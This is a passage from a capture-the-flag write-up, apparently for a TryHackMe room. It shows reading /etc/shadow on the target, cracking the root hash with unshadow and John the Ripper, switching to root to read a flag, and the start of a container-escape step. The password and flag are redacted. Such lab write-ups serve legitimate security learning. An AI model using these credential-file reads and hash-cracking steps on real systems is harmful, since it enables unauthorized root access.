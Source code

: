 ```bash
# on target
cat /etc/shadow
root:$y$j9T$.9s2wZRY3hcP/udKIFher1$sIBIYsiMmFlXhKOO4ZDJDXo54byuq7a4xAD0k9jw2m4:18885:0:99999:7:::
[...]

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
[...]

# on our machine
$ echo 'root:$y$j9T$.9s2wZRY3[...]q7a4xAD0k9jw2m4:18885:0:99999:7:::' > shadow
$ echo 'root:x:0:0:root:/root:/bin/bash' > passwd
$ unshadow ./passwd ./shadow > unshadowed
$ john --wordlist=/opt/wordlists/rockyou.txt ./unshadowed --format=crypt
Using default input encoding: UTF-8
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
(REDACTED)           (root)     
1g 0:00:00:17 DONE (2022-01-24 13:37) 0.05611g/s 274.7p/s 274.7c/s 274.7C/s yessica..FUCKYOU
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

# back on target
su       
Password: (redacted)
id
uid=0(root) gid=0(root) groups=0(root)

# while we are here, let's get the 5th flag
cd /root
ls -la
total 20
drwx------ 1 root root 4096 Sep 15 14:47 .
drwxr-xr-x 1 root root 4096 Sep 15 14:47 ..
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
-rw-r--r-- 1 root root   24 Sep 16 06:20 .flag
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
cat .flag
THM{5_redacted}
```

## Container escape

Start by listing disks:

```bash
ls -la /dev | grep disk
crw-rw----  1 root disk     10, 234 Jan 24 13:25 btrfs-control
brw-rw----  1 root disk    253,   0 Jan 24 13:25 dm-0
crw-rw----  1 root disk     10, 237 Jan 24 13:25 loop-control
[...]
```
